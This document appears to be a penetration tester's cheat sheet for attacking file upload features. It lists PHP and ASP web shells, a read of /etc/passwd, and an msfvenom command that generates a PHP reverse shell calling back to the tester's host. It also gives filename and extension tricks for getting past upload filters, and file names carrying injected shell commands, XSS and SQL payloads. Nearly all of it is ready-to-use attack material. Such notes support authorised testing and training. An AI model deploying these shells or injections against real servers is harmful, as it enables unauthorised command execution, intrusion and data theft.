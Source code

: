 # 📜 File Upload Cheat Sheet

### Web Shells

| **Web Shell**                                                                           | **Description**                       |
| --------------------------------------------------------------------------------------- | ------------------------------------- |
| `<?php file_get_contents('/etc/passwd'); ?>`                                            | Basic PHP File Read                   |
| `<?php system('hostname'); ?>`                                                          | Basic PHP Command Execution           |
| `<?php system($_REQUEST['cmd']); ?>`                                                    | Basic PHP Web Shell                   |
| `<% eval request('cmd') %>`                                                             | Basic ASP Web Shell                   |
| `msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php`          | Generate PHP reverse shell            |
| [PHP Web Shell](https://github.com/Arrexel/phpbash)                                     | PHP Web Shell                         |
| [PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell)                 | PHP Reverse Shell                     |
| [Web/Reverse Shells](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) | List of Web Shells and Reverse Shells |

### Bypasses

| **Command**                                                                                                                                | **Description**                              |
| ------------------------------------------------------------------------------------------------------------------------------------------ | -------------------------------------------- |
| **Client-Side Bypass**                                                                                                                     |                                              |
| `[CTRL+SHIFT+C]`                                                                                                                           | Toggle Page Inspector                        |
| **Blacklist Bypass**                                                                                                                       |                                              |
| `shell.phtml`                                                                                                                              | Uncommon Extension                           |
| `shell.pHp`                                                                                                                                | Case Manipulation                            |
| [PHP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst) | List of PHP Extensions                       |
| [ASP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP)                | List of ASP Extensions                       |
| [Web Extensions](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt)                          | List of Web Extensions                       |
| **Whitelist Bypass**                                                                                                                       |                                              |
| `shell.jpg.php`                                                                                                                            | Double Extension                             |
| `shell.php.jpg`                                                                                                                            | Reverse Double Extension                     |
| `%20`, `%0a`, `%00`, `%0d0a`, `/`, `.\`, `.`, `…`                                                                                          | Character Injection - Before/After Extension |
| **Content/Type Bypass**                                                                                                                    |                                              |
| [Web Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt)                             | List of Web Content-Types                    |
| [Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt)                    | List of All Content-Types                    |
| [File Signatures](https://en.wikipedia.org/wiki/List\_of\_file\_signatures)                                                                | List of File Signatures/Magic Bytes          |

### Limited Uploads

| **Potential Attack** | **File Types**          |
| -------------------- | ----------------------- |
| `XSS`                | HTML, JS, SVG, GIF      |
| `XXE`/`SSRF`         | XML, SVG, PDF, PPT, DOC |
| `DoS`                | ZIP, JPG, PNG           |





### Injections in FIle Name

Changing file name of uploaded file to the following:

`file$(whoami).jpg` or ``file`whoami`.jpg`` or `file.jpg||whoami`

`<script>alert(window.origin);</script>`

`file';select+sleep(5);--.jpg`

